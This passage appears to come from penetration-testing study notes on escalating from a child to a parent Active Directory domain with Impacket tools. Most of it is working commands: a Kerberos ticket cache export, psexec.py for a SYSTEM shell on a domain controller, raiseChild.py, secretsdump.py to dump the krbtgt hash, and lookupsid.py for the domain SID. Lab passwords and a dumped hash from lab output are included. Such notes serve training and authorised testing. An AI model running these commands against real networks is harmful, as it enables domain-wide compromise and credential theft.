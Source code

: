 ```shell-session
export KRB5CCNAME=hacker.ccache 
```


We can check if we can successfully authenticate to the parent domain's Domain Controller using [Impacket's version of Psexec](impacket-psexec.md). If successful, we will be dropped into a SYSTEM shell on the target Domain Controller.

```shell-session
psexec.py $targetedDomain/$madeupUser@$hostNameDC.$ParentDomain -k -no-pass -target-ip $DomainControllerIP
# Example:
# psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5
# Enter password: HTB_@cademy_stdnt_admin!
```


#### Step 7: Privilege escalation

Impacket also has the tool [raiseChild.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/raiseChild.py), which will automate escalating from child to parent domain.

We need to specify the target domain controller and credentials for an administrative user in the child domain. 

```shell-session
raiseChild.py -target-exec $DomainControllerIP  $TargetedDomain/$UserWithAdminPriv
# Example:
# raiseChild.py -target-exec 172.16.5.5 LOGISTICS.INLANEFREIGHT.LOCAL/htb-student_adm
# Enter password: HTB_@cademy_stdnt_admin!
# target-exec: If specified, then it will authenticate to the parent domain's Domain Controller via Psexec.

```


#### Step 8: Accessing another user on domain

The following will reproduce the entire attack:


```
#### Step 1: getting the KRBTGT hash for the child domain
secretsdump.py $targetedDomain/$UserWithAdminPriv@$TargetedIP -just-dc-user $NetbiosNameofDomain/krbtgt

# Example:
# secretsdump.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 -just-dc-user LOGISTICS/krbtgt
# Enter password: HTB_@cademy_stdnt_admin!
# Results: 9d765b482771505cbe97411065964d5f
#### 

#### Step 2: getting the SID for the child domain. Obtain the SID for the domain and the RIDs for each user and group and filter out by Domain SID
lookupsid.py $targetedDomain/$UserWithAdminPriv@TargetedIP | grep "Domain SID"

# Example:
# lookupsid.py logistics.inlanefreight.local/htb-student_adm@172.16.5.240 | grep "Domain SID"
# Enter password: HTB_@cademy_stdnt_admin!
# Results:  S-1-5-21-2806153819-209893948-922872689
####

#### Step 3: getting the name of a target user in the child domain (does not need to exist!)
hacker
####

#### Step 4: getting the FQDN of the child domain.
```
